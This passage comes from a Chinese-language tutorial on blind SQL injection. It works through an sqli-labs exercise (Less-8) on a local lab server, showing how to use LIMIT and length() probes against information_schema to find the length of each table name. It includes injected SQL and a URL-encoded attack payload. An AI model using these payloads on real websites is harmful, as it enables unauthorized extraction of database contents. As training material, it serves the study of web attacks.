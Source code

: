 #### 获取表名长度

* `limit`

  用于强制返回指定的记录行数，语法如下

  ```
  select * from table_name limit [offset，] rows
  offset：指定第一个返回记录行的偏移量（即从哪一行开始返回），注意：初始行的偏移量为0。
  rows：返回行数的数量。
  ```

方法同获取数据库名长度，但是由于表名可能不止一个。当表名为多个的时候，直接将下面的`SQL`语句拿到数据库中运行将会报错。

```
SELECT * FROM users WHERE id='1' and length((select table_name from Information_schema.tables where table_schema = database()))=1#' LIMIT 0,1;
;
```

![](盲注/photo/16.jpg)

> `length((select table_name from Information_schema.tables where table_schema = database()))`此处的括号并没有多敲，`length()`自带一个括号，`select`的结果也需要一个括号。去掉一层括号，数据库将会报错。~~（不去掉括号也会报错）~~

所以此处需要用到`limit`来控制行数，然后再一一爆破。

> 之所以不用`group_concat`是为了防止有些人不讲武德，在表名里也用除下划线以外的符号，比如`,`

下面以第一个表为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1))=6%23
SQL:
SELECT * FROM users WHERE id='1' and length((select table_name from Information_schema.tables where table_schema = database() limit 0,1))=6#' LIMIT 0,1
;
```
